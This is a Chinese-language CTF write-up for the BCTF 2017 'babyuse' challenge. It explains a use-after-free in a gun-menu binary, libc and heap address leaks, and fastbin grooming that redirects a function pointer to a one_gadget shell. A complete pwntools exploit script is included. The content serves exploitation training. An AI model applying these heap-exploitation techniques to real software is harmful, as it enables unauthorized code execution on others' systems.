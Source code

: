 ```yaml
---
layout:     post
title:      "bctf 2017 babyuse writeup"
subtitle:   "how to heap using UAF"
date:       2017-04-19 19:30:00 -0800
author:     "Dafeng"
header-img: "img/post-bg-universe.jpg"
header-mask: 0.3
catalog: true
tags:
    - CTF
    - Heap
    - Pwn
---
```


## Bctf babyuse

### 简述
32位ELF文件，没有符号表，提供so库

查看程序开启的保护机制：

    $ checksec --file babyuse
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

差不多保护全开，不过对于ctf题目已经习以为常了，不开保护才不正常呢！

### 分析程序
    $ ./babyuse
     _                                         
    |_)_. _ _o _ ._  |  _  _. _| _  /\ ._ _    
    | (_|_>_>|(_)| | |_(/_(_|(_|_> /--\| | |\/
                                            /  

    Menu:
    1. Buy a Gun
    2. Select a Gun
    3. List Guns
    4. Rename a Gun
    5. Use a Gun
    6. Drop a Gun
    7. Exit

通过IDA反汇编分析可以找到程序，在select a gun 之后， 然后use a gun，但是在use a gun时获取gun struct指针后没有进行判断。如果我们在select a gun之后Drop a gun, 我们再去使用触发了UAF漏洞，而在Use a gun 里有一个打印函数，打印gun’s name,如果访问的是已经被释放的chunk，可以泄露chunk结构里面的内容。

### 利用步骤
> 不详细介绍原理，详细介绍请参考 [Useful skills for CTF #堆利用](https://stfpeak.github.io/2017/04/12/ctf-base/)

1. 泄露libc地址，买三把抢(名字大小为64)，然后选择第0把，删除第0把，再使用第0把，然后就可以泄露libc中unsorted bin 的地址，从而确定libc基址；
2. 选择第1把，再删除第1把，再使用第一把就可以泄露上一步骤free的smallbin的地址；
3. 通过分析可知： Use a gun调用的方法是通过  *(*ptr)的方式查找函数地址，我们知道只要把最后的指针指向libc中的[one gadget](https://github.com/david942j/one_gadget)地址就可以拿到shell；
4. 直接改写堆不可以成功，思路是通过改写一个堆块，将内容指向堆上的另一个地址，这样的话通过两层指针的寻址可以跳转到我们希望跳转的地址。
5. 通过选择1块，然后删除两块，会在fastbin中存在两个fastbin，然后buy a gun这样的话，令被选择的块为内容块，填充器内容，便可实现跳转。


### Exploit
``` python
#! /usr/bin/python
from pwn import *
context.log_level = 'debug'

def buy(type, len):
  p.recvuntil('7. Exit\n')
  p.sendline('1')
  p.recvuntil('2. QBZ95\n')
  p.sendline(str(type))
  p.recvuntil("name")
  p.sendline(str(len))
  p.recvuntil("Input name:\n")
  p.sendline("a" * len)

def buy2(type, len, payload):
  p.recvuntil('7. Exit\n')
  p.sendline('1')
  p.recvuntil('2. QBZ95\n')
  p.sendline(str(type))
  p.recvuntil("name")
  p.sendline(str(len))
  p.recvuntil("Input name:\n")
  p.sendline(payload)

def select(id):
  p.recvuntil('7. Exit\n')
  p.sendline('2')
  p.recvuntil('Select a gun')
  p.sendline(str(id))

def list():
  p.recvuntil('7. Exit\n')
  p.sendline('3')

def rename(id,lenth,name):
  p.recvuntil('7. Exit')
  p.sendline('4')
  p.recvuntil('to rename:\n')
  p.sendline(str(id))
  p.recvuntil('name')
  p.sendline(str(lenth))
  p.recvuntil('Input name:\n')
  p.sendline(name)

def use():
  p.recvuntil('7. Exit\n')
  p.sendline('5')
  #p.recvuntil('4. Main menu\n')
  #p.sendline(str(type))

def use2(type):
  p.recvuntil('7. Exit\n')
  p.sendline('5')
  p.recvuntil('4. Main menu\n')
  p.sendline(str(type))

def delete(id):
  p.recvuntil('7. Exit\n')
  p.sendline('6')
  p.recvuntil('to delete:\n')
  p.sendline(str(id))

if __name__ == '__main__':
    print "exp start..."
    # p = remote('202.112.51.247', 3456)
    p = process('./babyuse')

    #leak libc
    buy(1, 64)
    buy(1, 64)
    buy(1, 64)
    select(0)
    delete(0)
    use()
    p.recvuntil("Select gun ")
    lib_leak = u32(p.recv(4))
    print hex(lib_leak)
    print proc.pidof(p)
    # the one gadget offset in libc is 0x3ac69
    exec_addr = lib_leak - 0x1b27b0 + 0x3ac69
    print hex(exec_addr)
    p.sendline("4")

    #leak heap addr
    select(1)
    delete(1)
    use()
    p.recvuntil("Select gun ")
    heap_leak = u32(p.recv(4))
    print hex(heap_leak)
    p.sendline("4")

    buy(1, 64)
    buy(1, 64)

    rename(1, 64, p32(exec_addr) + p32(exec_addr) + p32(exec_addr))
    select(1)
    delete(1)
    delete(0)

    buy2(1, 15, p32(heap_leak + 0x110) + p32(heap_leak + 0x110))
    use2(1)
    p.interactive()
    p.close()

```

PS: [BCTF 2017 - PoisonousMilk](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)

鉴于这题大神已经分析的非常好了，这里就不用赘述了。
